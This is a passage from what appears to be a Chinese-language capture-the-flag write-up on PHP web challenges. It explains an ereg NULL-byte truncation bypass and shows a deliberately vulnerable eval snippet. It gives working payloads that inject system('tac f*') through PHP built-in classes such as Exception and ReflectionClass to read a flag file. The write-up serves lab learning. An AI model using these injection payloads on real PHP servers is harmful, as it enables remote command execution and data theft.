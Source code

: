 

- ereg — 正则表达式匹配
- ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，**导致了正则过滤被绕过,所以可以使用%00截断正则匹配**

```
0x36d是 877
```

所以构造

```
?c=a%00aaaa778
```

当通过`strrev`和`intval`的时候，为 877

## 109

```PHP
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?> 
```

考察点：php 异常类
 先来看下这个正则表达式`/[a-zA-Z]+/` 匹配**至少有一个字母**的字符串
 所以我们只要让new后面有个类不报错以后，就可以随意构造了。我们随便找个php中的内置类并且可以直接echo输出的就可以了。
 举两个例子

```
Exception
ReflectionClas
```

new 之后我们就可以执行里面的system函数,虽然最后Reflection(system('tac f*')())会报错,但其实已经不影响我们执行system('tac f\*')

```
payload:
v1=Exception();system('tac f*');//&v2=a
v1=ReflectionClass&v2=system('tac f*')
```



## 110
